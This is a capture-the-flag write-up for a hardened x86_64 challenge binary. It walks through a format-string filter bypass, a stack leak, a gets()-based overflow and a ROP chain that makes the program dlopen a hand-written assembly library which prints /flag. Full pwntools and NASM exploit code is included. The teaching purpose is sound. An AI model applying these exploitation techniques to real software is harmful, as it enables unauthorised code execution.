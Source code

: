 ```yaml
---
title: "The Liberated Library"
layout: page
---
```



- Exploitation
- Buffer Overflow
- C
- X86_64
- Hard

Writeup by `Sasszem`

# Description and resources
## Mission brief
Exploit a simple (well, you will judge this) ELF binary.

## Instructions
As the years are passing by you are getting thirsty for a real challenge. Well, this little binary is not only armoured with your favourite hardening techniques, but also requires a bit of playing with the bits.

We prepared a fully armoured environment to succeed with this challenge, so we installed your favourite tools:
- GDB with PEDA
- Checksec
- Pwntools for python3
- ROPgadget
- vim/nano

Your job is to exploit the `main` executable and get access to the file `/flag`. Enjoy the ride and have fun.

---

# Writeup

Now this one took some time to solve, but it was kinda fun. It was mostly like figuring out the annoying details, not that I did not have a plan.

This binary does the same job as the last one, but a bit differently. First, it's protected against both format string exploits (by some filtering) and also against buffer overflows (by not using `gets`). It does the printing by opening itself as a shared library and executing a function to print to a string then print that string. Pretty fishy I say.

I did not fully reverse the protection against format strings, since I found by looking at the disassembly that it does not properly check every percent sign, so `%%%p` kinda bypassed it. I also later used `%%%2$p` to leak a stack address, and `%115p` to make a long string.

Speaking of long strings, another part was also fishy. It compared the string with a copy made with `memcpy`, and if they differ it ran a different function. Making them not differ was easy, by overflowing a third string using `%115p`. Determining the "115" was some work, as it needed to trigger the bad comparison but not wrack the whole program.

That other function did something interesting: it read into it's own buffer with `gets`. So, BOF protection is also bypassed.

Getting to the solution from there was not easy, and took a long time, so I'll only explain my solution:
- ROP attack
- Go to the part where it loads itself a library, but load another file instead by overriding the parameters
- Then it'll load my code from a SO and exec it
- It needed a few rop gadgets I found with `ropper`
- Making it function was a tedious work with a ton of segfaults
- I had to move the stack frame of `main` so all buffers can fit in
- I ended up making that library in assembly so it won't demand a proper stack because I could not keep that together to that point

Final code:

```python
from pwn import *

# GDB helps w/ debugging
p = process("./main_lib3")
#p = gdb.debug("./main_lib3", '''b main\ncommands\np/x $rbp\nc\nend\nb *stuff+80''')


# get stack pointer
# %%%p bypasses the check of the string, and leaks the address of the current buffer
p.sendline("%%%2$p")
p.recvline()
l = p.recvline()
l = p.recvline()
#print(f"got: '{l}'")

# address of "message" string stored in main's stack frame
message_of_main = eval(l.strip().split(b"'")[-2][1:])

# calculate a few offsetts
# this RBP is used a few times
rbp_of_main = message_of_main+0x120

# pointer of filename to open
# yeah it was experimentations
filename_ptr = rbp_of_main - 0x50 - 432


print(f"rbp to write = 0x{rbp_of_main:x}")
print(f"message entered: 0x{filename_ptr:x}")

# this triggers the "stuff" function which uses gets so we can overflow and just ROP again
p.sendline("%115p")



# Some gadgets
pop_rdi_ret = 0x40172b
pop_rsi_r15 = 0x0401729
single_ret = 0x401016


# sadly, all ROPing messes with the stack a bit
# this causes return addresses overlap with a few arrays we need to use
# so we need to cheat and move them
# this fucks up location of symbol name for dlsym
# but we can place it later
my_rbp = rbp_of_main + 500

symbol_name = b"exploit"



payload = b"./exploitlib.so\0".ljust(10*8, b"A") # filler for overflow + filename to open with dlopen
payload += p64(my_rbp) # fix rbp
payload += p64(pop_rdi_ret) + p64(filename_ptr) # setup filename in rdi (1st param for dlopen)
payload += p64(pop_rsi_r15) + p64(1) + b"X"*8 # r15 is not needed, but rsi needs to be 1 (2nd param of dlopen)
payload += p64(single_ret) # align stack
payload += p64(0x4015BF) # jump to dlopen stuff in main

# after that, it's on autopilot, it'll open my dll, search for the symbol and call it. If that exits, we don't have to care at all about the f-ed up stack
# but we need to craft that library carefuly, bc it must not depend heavily on the stack
# so I did it in asm w/ hand

# also, we moved rbp of main, so we need to add back the symbol name to lookup. No one said it must be the same one...
payload = payload.ljust(1000-52, b"H")+symbol_name


# This is the most important part
p.sendline(payload)
p.interactive()
```

Library:

```x86
section .text

global exploit:function

exploit:
    mov rax, 2 ; open syscall
    mov rdi, filename
    mov rdx, 0
    mov rsi, 0    
    syscall

    mov r8, rax
    ; now rax is the file descriptor
    
    readloop:
        ; read one byte
        mov rax, 0
        mov rdi, r8
        mov rsi, rbp
        mov rdx, 1
        syscall

        ; now [rbp] is a byte read
        ; except when read 0 bytes
        cmp rax, 0
        je exit
    
        ; write one byte to stdout
        mov rax, 1
        mov rdi, 1
        mov rdx, 1
        mov rsi, rbp
        syscall

    jmp readloop

    exit:
        ; clsoe file
        mov rax, 4
        mov rdi, r8
        syscall

        ; exit
        mov rax, 60
        mov rdi, 0
        syscall


section .data
filename:  db        "/flag", 0
```

Makefile:
```Makefile
all: exploitlib.so

%.so: %.o
	gcc --shared -o $@ $<

%.o: %.s
	nasm -f elf64 -o $@ $<

clean:
	-rm ./*.o
	-rm ./*.so
```

Also it should be renamed to `exploiti`.